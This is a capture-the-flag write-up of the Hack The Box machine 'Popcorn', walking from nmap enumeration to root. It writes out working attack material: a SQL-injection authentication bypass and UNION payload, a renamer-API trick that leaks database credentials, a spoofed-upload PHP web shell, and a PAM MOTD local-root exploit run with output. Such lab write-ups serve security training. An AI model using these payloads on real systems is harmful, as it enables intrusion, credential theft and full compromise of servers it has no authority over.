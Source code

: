 ```yaml
---

title: 🟠 HTB - Popcorn
author: Acivik
date: 2025-01-24 20:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Popcorn, walkthrough, medium, linux]

---
```


![https://i.ibb.co/b6xZz9t/Popcorn.png](https://i.ibb.co/b6xZz9t/Popcorn.png)

---

# <span style="color:#AA0E1C"><b># System Info & Credentials</b></span>

| IP: | 10.10.10.6 |
| --- | --- |
| OS: | Ubuntu 9.10 "Karmic Koala” |
| Hosts: | popcorn.htb |
| Credentials: | torrent:SuperSecret!! |

# <span style="color:#AA0E1C"><b># Nmap Result</b></span>

```bash
root@kali:~/HTB/popcorn# nmap -p22,80 -sT 10.10.10.6 --min-rate 10000 -sV -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:48 UTC
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-title: Did not follow redirect to http://popcorn.htb/
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: Host: popcorn.hackthebox.gr; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
root@kali:~/HTB/popcorn#
```

# <span style="color:#AA0E1C"><b># Open Ports & To-Do</b></span>

| 22/tcp SSH | OpenSSH 5.1p1-6ubuntu2
 | Need Credentials |
| --- | --- | --- |
| 80/tcp HTTP | Apache/2.2.12 | [+ SourceCode]
[+ Discover Content]
[+ Check Web Vuln] |

# <span style="color:#AA0E1C"><b># Enumeration Notes</b></span>

## <span style="color:#0096FF">Web-Enum:</span>

![https://i.ibb.co/ZG8ngW6/resim-2025-01-23-141548690.png](https://i.ibb.co/ZG8ngW6/resim-2025-01-23-141548690.png)

### <span style="color:#FFC300">Directory & Files</span>

```
/index/
/test/ -> phpinfo() page
/torrent/ -> TorrentHoster
	/torrents.php
	/comment
	/config.php
	/database/th_database.sql -> admin:admin12
	/login
	/upload.php
	/upload -> uploads directory
	/readme
	/lib -> Index of /torrent/lib
/rename/ -> api
```

### <span style="color:#FFC300">/torrent/</span>

![https://i.ibb.co/YhsKdDw/resim-2025-01-23-142222893.png](https://i.ibb.co/YhsKdDw/resim-2025-01-23-142222893.png)

# <span style="color:#AA0E1C"><b># Vulnerabilities</b></span>

### <span style="color:#FFC300">Rename Files</span>

We can change files name with rname api. 

For example, you can read the config.php file by changing its name to config.txt.

```bash
/rename/
		Renamer API Syntax: index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
```

```bash
/rename/index.php?filename=/var/www/torrent/config.php&newfilename=/var/www/torrent/lib/config.txt
	  $CFG->dbName = "torrenthoster";	//db name
	  $CFG->dbUserName = "torrent";    //db username
	  $CFG->dbPassword = "SuperSecret!!";	//db password
```

### <span style="color:#FFC300">Authentication Bypass</span>

```bash
/torrent/login (Authentication Bypass) -> admin' or 1='1
```

### <span style="color:#FFC300">SQL Injection</span>

```bash
/torrent/torrents.php (There is sqli on search box) -> test' union select null,group_concat(schema_name),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.schemata-- -
```

### <span style="color:#FFC300">File Upload (Authenticated)</span>

![https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png](https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png)

# <span style="color:#AA0E1C"><b># Foothold</b></span>

## <span style="color:#0096FF">SQL Injection</span>

```bash
/torrent/torrents.php (There is sqli on search box) -> test' union select null,group_concat(schema_name),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.schemata-- -
database:information_schema
database:torrenthoster
	tables:ban
	tables:categories
	tables:comments
	tables:log
	tables:namemap
	tables:news
	tables:subcategories
	tables:users
		columns:id
		columns:userName
		columns:password
		columns:privilege
		columns:email
		columns:joined
		columns:lastconnect
	
dumped -> Admin : d5bfedcee289e5e05b86daad8ee3e2e2 : admin : admin@yourdomain.com (couldn't crack this hash)
```

## <span style="color:#0096FF">Upload Shell</span>

![https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png](https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png)

**Request Body:**

Changed the content type header from `application/x-php` to `image/jpeg`

```bash
-----------------------------239990188727439809613051752681
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]);?>

-----------------------------239990188727439809613051752681
Content-Disposition: form-data; name="submit"

Submit Screenshot
-----------------------------239990188727439809613051752681--

```

**Response Body:**

```bash
Upload: cmd.php
Type: image/jpeg
Size: 0.029296875 Kb
Upload Completed.
Please refresh to see the new screenshot.
```

```bash
http://popcorn.htb/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# <span style="color:#AA0E1C"><b># Privilege Escalation</b></span>

check os version

```bash
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/*release*
cat /etc/*release*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"
www-data@popcorn:/home/george$
```

[https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)

```bash
www-data@popcorn:/tmp$ ls
privesc.sh  vgauthsvclog.txt.0	vmware-root
www-data@popcorn:/tmp$ ./privesc.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@popcorn:/tmp#
```
